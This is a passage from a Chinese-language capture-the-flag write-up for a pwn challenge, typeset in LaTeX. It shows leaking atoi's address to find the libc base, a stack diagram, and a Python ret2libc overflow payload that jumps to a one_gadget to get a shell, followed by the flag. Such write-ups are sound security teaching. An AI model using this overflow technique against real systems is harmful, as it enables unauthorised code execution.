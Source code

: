 \subsubsection*{地址泄露}
libc中atoi函数偏移可以直接从libc中获取，而后，通过第一次输入"1200"获得atoi函数地址后，计算出libc基址，再计算出one\_gadget地址:
$$ libc\_addr = atoi\_addr - atoi\_offset $$
$$ one\_gadget\_addr = libc\_addr + one\_gadget\_offset $$

\subsubsection*{ret2libc}
接下来，构造第二次输入，造成栈溢出，进行ret to libc攻击，跳转到one\_gadget。此时程序栈情况如下:
\begin{lstlisting}
buf-24:     ret_addr
buf-16:     ebp
buf-8:      v5
buf:        buf_end
...
buf+256:    buf_start
\end{lstlisting}
其中，v5是程序中使用的另一个局部变量。所以只要溢出24个字节，在后8个字节填充one\_gadget地址即可，可以构造攻击载荷如下:
\begin{lstlisting}[language=python]
payload = 'A'*(264+16) + p64(one_gadget_addr) 
\end{lstlisting}
攻击后，栈情况如下:
\begin{lstlisting}
buf-24:     ret_addr=one_gadget_addr
buf-16:     ebp='AAAAAAAA'
buf-8:      v5='AAAAAAAA'
buf:        'AAAAAAAA'
...
buf+256:    'AAAAAAAA'
\end{lstlisting}
直接实施攻击，可以直接获取到shell，如图~\ref{fig:2}，因此，刚才选取的one\_gadget约束条件是恰好满足的，攻击完成，在远程环境下可以在shell中获取到flag，flag为:
$$ flag\{simple\_return\_2\_libc\} $$
\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{WP/pwn/pic/2.jpg}
    \caption{pwn1攻击成功}
    \label{fig:2}
\end{figure}

